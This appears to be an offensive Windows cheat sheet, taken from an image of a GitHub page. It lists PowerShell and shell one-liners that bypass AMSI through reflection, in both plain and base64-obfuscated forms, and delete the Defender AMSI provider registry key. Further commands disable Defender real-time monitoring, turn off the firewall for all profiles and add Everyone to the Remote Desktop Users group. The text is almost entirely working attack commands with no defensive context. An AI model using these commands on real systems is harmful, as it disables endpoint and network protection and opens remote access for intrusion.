 #  Bypass Windows AMSI / AV Evasion
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

